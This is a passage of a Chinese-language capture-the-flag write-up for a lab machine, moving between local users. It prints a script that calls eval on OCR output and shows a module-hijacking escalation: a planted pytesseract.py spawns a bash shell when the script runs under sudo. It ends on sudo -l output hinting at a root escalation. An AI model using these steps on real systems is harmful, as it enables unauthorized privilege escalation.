 ```python title="/home/ramsey/vuln.py"
                        animation = ["[■□□□□□□□□□]","[■■□□□□□□□□]", "[■■■□□□□□□□]", "[■■■■□□□□□□]", "[■■■■■□□□□□]", "[■■■■■■□□□□]", "[■■■■■■■□□□]", "[■■■■■■■■□□]", "[■■■■■■■■■□]", "[■■■■■■■■■■]"]

                        print "\r\t\t\t     Waiting to extract..."
                        for i in range(len(animation)):
                            time.sleep(0.5)
                            sys.stdout.write("\r\t\t\t" + animation[i % len(animation)])
                            sys.stdout.flush()

                        LISTED = pytesseract.image_to_string(Image.open('payload.png'))

                        TOTAL = eval(LISTED)
                        print "\n\n\t\t\tTotal >> $",TOTAL
                if OPTIONS == 3:
                        credits()
        sys.exit(-1)
```

由于文件位于用户目录下，而且 `pytesseract.py` 文件可被当前用户所控制，所以可以直接接管

部署恶意负载

```python
import pty

pty.spawn("/bin/bash")
```

## User - oliver

```bash
(remote) ramsey@unbaked:/home/ramsey$ touch pytesseract.py
(remote) ramsey@unbaked:/home/ramsey$ echo "import pty" > pytesseract.py
(remote) ramsey@unbaked:/home/ramsey$ echo 'pty.spawn("/bin/bash")' >> pytesseract.py
(remote) ramsey@unbaked:/home/ramsey$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py
oliver@unbaked:~$ whoami
oliver
```

### 环境探测

```bash
oliver@unbaked:~$ sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
```

### 读取服务源码
